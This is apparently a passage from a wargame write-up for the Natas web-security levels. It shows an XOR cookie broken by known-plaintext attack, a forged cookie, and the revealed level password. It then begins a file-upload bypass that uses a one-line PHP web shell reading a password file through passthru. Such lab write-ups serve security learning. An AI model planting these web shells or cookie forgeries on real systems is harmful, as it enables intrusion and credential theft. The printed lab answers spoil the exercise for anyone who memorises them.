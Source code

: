 ```php
function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}
```

- We know the plain text equivalent of the encrypted cookie, shown as follows:

```
cookie = b"ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw="
plain_text = {"showpassword":"no", "bgcolor":"#ffffff"}

```

### Hack

- We write a python code for known plaintext attack.
- The known- key outputs repeated key as:

```php
qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
```

- Having known the key we write yet another code to create a new cookie with `showpassword` set as "yes"

### Code

- Known plaintext attack: [https://gist.github.com/rachuacharya/cc84920b605e7b6b5e76d7079799bf78](https://gist.github.com/rachuacharya/cc84920b605e7b6b5e76d7079799bf78)
- Repeated key Encryption: [https://gist.github.com/rachuacharya/a8143df197f250d9d959835090b9105f](https://gist.github.com/rachuacharya/a8143df197f250d9d959835090b9105f)
- The code outputs the new cookie for us: `ClVLIh4ASCsCBE8lAxMacFFVQS8CVRRqUxVfKR4bVzhTTRhoUhFeLBcRXmg`. Upon manually changing the cookie value on the browser, we are shown the natas12 password
- Password: `EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3`

# Level 12 → Level 13

### Problem Statement

- The form on the `natas12` web-page lets us browse  on our local machine for a .jpg file. Once a file is chosen, a separate button lets us `Upload` it. Underneath the hood, immediately after we choose a file the server assigns a random name under which it will store the file. The file extension is strictly .jpg
- What we can do is find a way to upload a .php file with codes to execute command line and display contents of password file.

```php

echo "<?php echo passthru(\"cat /etc/natas_webpass/natas13\"); ?>" > natas12.php
```

- The back-end code running on the server makes use of  `$_POST["filename"]` which will be used by the function `makeRandomPathFromFilename` to generate a file name. We cannot change the code on the server side to assign a different value to `$ext` variable.
